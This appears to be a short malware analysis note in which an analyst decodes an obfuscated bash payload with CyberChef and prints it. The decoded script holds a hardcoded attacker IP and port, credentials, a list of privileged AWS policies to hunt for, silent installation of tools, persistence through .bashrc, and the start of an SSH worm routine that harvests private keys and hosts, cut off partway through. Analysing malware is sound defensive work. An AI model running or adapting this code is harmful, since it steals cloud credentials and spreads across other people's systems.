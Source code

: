 Used CyberChef to decode it:
```
#!/bin/bash

# List of interesting policies
VULNERABLE_POLICIES=("AdministratorAccess" "PowerUserAccess" "AmazonS3FullAccess" "IAMFullAccess" "AWSLambdaFullAccess" "AWSLambda_FullAccess")

SERVER="34.118.239.100"
PORT=4444
USERNAME="FizzShadows_1"
PASSWORD="Gx27pQwz92Rk"
CREDENTIALS_FILE="/tmp/c"

SCRIPT_PATH="$(cd -- "$(dirname -- "${BASH_SOURCE[0]}")" &>/dev/null && pwd)/$(basename -- "${BASH_SOURCE[0]}")"

# Check if a command exists
check_command() {
    if ! command -v "$1" &> /dev/null; then
        install_dependency "$1"
    fi
}

# Install missing dependencies
install_dependency() {
    local package="$1"
    if [[ "$package" == "curl" ]]; then
        apt-get install curl -y &> /dev/null
                yum install curl -y &> /dev/null
    elif [[ "$package" == "unzip" ]]; then
        apt-get install unzip -y &> /dev/null
                yum install unzip -y &> /dev/null
    elif [[ "$package" == "aws" ]]; then
        install_aws_cli
    fi
}

# Install AWS CLI locally
install_aws_cli() {
    mkdir -p "$HOME/.aws-cli"
    curl -s "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "$HOME/.aws-cli/awscliv2.zip"

    unzip -q "$HOME/.aws-cli/awscliv2.zip" -d "$HOME/.aws-cli/"

    "$HOME/.aws-cli/aws/install" --install-dir "$HOME/.aws-cli/bin" --bin-dir "$HOME/.aws-cli/bin"

    # Add AWS CLI to PATH
    export PATH="$HOME/.aws-cli/bin:$PATH"
    echo 'export PATH="$HOME/.aws-cli/bin:$PATH"' >> "$HOME/.bashrc"
}


# Try to spread
spread_ssh() {
    find_and_execute() {
        local KEYS=$(find ~/ /root /home -maxdepth 5 -name 'id_rsa*' | grep -vw pub;
                     grep IdentityFile ~/.ssh/config /home/*/.ssh/config /root/.ssh/config 2>/dev/null | awk '{print $2}';
                     find ~/ /root /home -maxdepth 5 -name '*.pem' | sort -u)

        local HOSTS=$(grep HostName ~/.ssh/config /home/*/.ssh/config /root/.ssh/config 2>/dev/null | awk '{print $2}';
```